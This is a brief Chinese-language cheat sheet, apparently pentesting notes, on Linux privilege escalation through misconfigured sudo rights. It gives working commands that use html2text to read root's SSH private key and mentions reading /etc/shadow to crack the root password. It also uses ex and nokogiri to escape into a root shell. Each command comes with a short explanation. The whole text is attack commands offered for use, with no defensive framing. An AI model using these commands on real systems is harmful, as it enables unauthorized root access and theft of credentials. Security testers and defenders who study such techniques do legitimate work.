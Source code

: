 



## html2text

```
sudo html2text /root/.ssh/id_rsa
```

### 描述

利用html转文本工具实现任意文件读取

读取root用户私钥，从而实现免密登录

读取shadow文件，从而爆破root密码



## ex

```
sudo ex
!/bin/sh
```

### 描述

利用ex开启文本编辑器，并在ex中运行shell





## nokogiri

```
vim 1
123
```

创建一个文档

```
sudo nokogiri 1
system"/bin/sh"
```

利用nokogiri解析文档

### 描述

利用noko解析一个文档，并开启一个交互式的ruby会话，通过该ruby会话开启一个shell

### 命令分析：

- vim 1 
  - 创建一个文件，内容和文件名不限
- sudo nokogiri 1
  - 以root身份运行nokogiri，并解析文件1
- system"/bin/sh"
  - 在解析过程中，nokogiri会开启一个ruby会话，通过ruby会话中的system方法调用/bin/sh，即开启一个shell
  - 作用：启动一个具有root权限的shell，实现提权
